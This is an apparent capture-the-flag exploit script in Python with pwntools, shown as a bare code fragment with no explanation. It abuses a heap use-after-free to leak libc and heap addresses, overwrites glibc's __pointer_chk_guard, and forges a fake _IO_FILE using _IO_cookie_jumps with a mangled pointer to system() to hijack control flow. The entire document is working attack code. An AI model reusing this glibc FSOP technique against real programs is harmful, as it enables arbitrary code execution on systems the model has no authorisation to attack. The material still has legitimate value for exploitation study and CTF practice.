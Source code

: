 ````python
# add(2,0x440,"c"*0x40)
delete(0)
edit_noline(0,'\x01')
show(0)
libc_base = (u64(p.recvuntil("\x7f").ljust(8,'\x00')) >> 16)-1-libc.sym['__malloc_hook']-0x10-96
print hex(libc_base)
edit_noline(0,'\x00')


add(4,0x470,"e"*0x40)
delete(2)
edit_noline(0,"a"*0x10)
show(0)
p.recvuntil("a"*0x10)
heap_addr = u64(p.recv(6).ljust(8,'\x00'))
print hex(heap_addr)
heap_base = heap_addr-0x290
global_max_fast = 0x1e3e78+libc_base
stderr_chain = 0x1e1648+libc_base

ld_base = libc_base + 0x1fc000
__pointer_chk_guard = ld_base + 0x32cf0
print hex(__pointer_chk_guard)
__pointer_chk_guard = libc_base+0x1ed5b0
print hex(__pointer_chk_guard)
# debug(p)


edit(0,p64(libc_base+0x1e1000)*2+p64(heap_addr)+p64(__pointer_chk_guard-0x20))

add(5,0x480,"f"*0x40) # edit __pointer_chk_guard



target = libc_base+libc.sym['system']

io_cookie_jumps = 0x1e1a20+libc_base 
next_chain = 0

fake_IO_FILE = p64(0x00000000fbad2087)+3 * p64(0)
fake_IO_FILE += p64(0)  # _IO_write_base = 0
fake_IO_FILE += p64(0xffffffffffffffff)  # _IO_write_ptr = 0xffffffffffffffff
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0)  # _IO_buf_base
fake_IO_FILE += p64(0)  # _IO_buf_end
fake_IO_FILE += p64(0)*4
fake_IO_FILE += p64(next_chain)  # _chain
fake_IO_FILE += p64(0)*3
fake_IO_FILE += p64(libc_base+0x1e3660)  # _lock = writable address
fake_IO_FILE += p64(0)*7
fake_IO_FILE += p64(0)  # _mode = 0
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(io_cookie_jumps + 0x40)  # vtable
fake_IO_FILE += p64(heap_base+0x300)  # rdi
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(target^(heap_base+0xb30),0x11))


add(-4,0x500,fake_IO_FILE)
# add(-1,0x500,fake_IO_FILE)
add(6,0x700,"6"*0x40)

delete(6)
````